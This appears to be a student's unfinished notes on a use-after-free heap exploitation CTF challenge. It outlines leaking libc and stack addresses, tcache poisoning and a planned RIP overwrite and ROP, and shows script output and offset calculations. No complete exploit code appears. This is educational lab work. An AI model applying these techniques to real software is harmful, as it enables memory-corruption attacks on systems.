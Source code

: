 This one looks about the same as the last UAF

Strategy:
1) Leak stack address
2) Calculate current frame
3) Return a pointer to the current stack
4) Overwrite RIP
5) Profit?

# Leaking
## Libc
###### Steps
1) Allocate two things
	In this case, make two `notes`
2) Set them free
	call `delete` on both `notes`
3) Print `note0`?

Code is basically the same as last week:
```
┌──(kali㉿kali)-[~/Desktop/8-Week/UAF]
└─$ python3 UAF_PWN_DBG1.py
Adding note 0
Adding note 1
Deleting note 0
Reading address from note 0

>Content:
0x7ffff7f9ece0
Leaked Address:
0x7ffff7f9ece0
```
But yay

Remote too:
```
┌──(kali㉿kali)-[~/Desktop/8-Week/UAF]
└─$ python3 UAF_PWN_1.py   
[*] '/home/kali/Desktop/8-Week/UAF/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/kali/Desktop/8-Week/UAF/challenge/chal': pid 17533
Adding note 0
Size:

Adding note 1
Size:

Deleting note 0
which note do you wanna delete?

Reading address from note 0
which note do you wanna read?

>Content:

0x7f16fa877ce0
Leaked Address:
0x7f16fa877ce0

```


Offset to GLIBC Base
```
offset = leak - base
offset = 0x7ffff7f9ece0 - 0x00007ffff7dcb000
offset = 1D3CE0
```

This technique still works as it attempts to leak a part of the unsortedbins, not tcache, which has been fixed
## Stack
So...how tf do I leak a stack address

# hmmmm, it looks like tcache attack isn't going to work\
We get to step 6 and it crashes:
```
=========== NYU OFFSEC ============
>1
Size:
24
malloc(): unaligned tcache chunk detected

Program received signal SIGABRT, Aborted.
__pthread_kill_implementation (threadid=<optimized out>, signo=signo@entry=0x6, no_tid=no_tid@entry=0x0) at ./nptl/pthread_kill.c:44
```

[This writeup](https://ctftime.org/writeup/35951) mentions safe-linking bypasses


Okay, this talks about stack leak to ROP, which is exactly what I wanted to do:
# New Technique: Stack Leak + ROP
### 1) Leak glibc `environ` variable
This will have a stack address
	I might already have this if I can calculate based on Libc Base

Yay
```
envi = libc + elf.symbols['environ']
	print(hex(envi))

0x7ffff7fa6320

gef➤  $ x/2x 0x7ffff7fa6320
0x7ffff7fa6320 <environ>:    0xffffdee8    0x00007fff
```

That was actually way easier than how they did it in the guide I think

Though I realized that I wanted the heap addr too, so I went back and did it their way (which was v easy)

## 2) TCache Poisoning
Allocate notes of size 0
	Malloc(0) returns chunks from the `0x20` size tcache, as that is the smallest chunk size
	Nothing is written to the environ chunk for `fgets` though\


# Where are we at:
Leaking the wrong address for the `environ` variable



```c
p *(struct tcache_entry*)
```
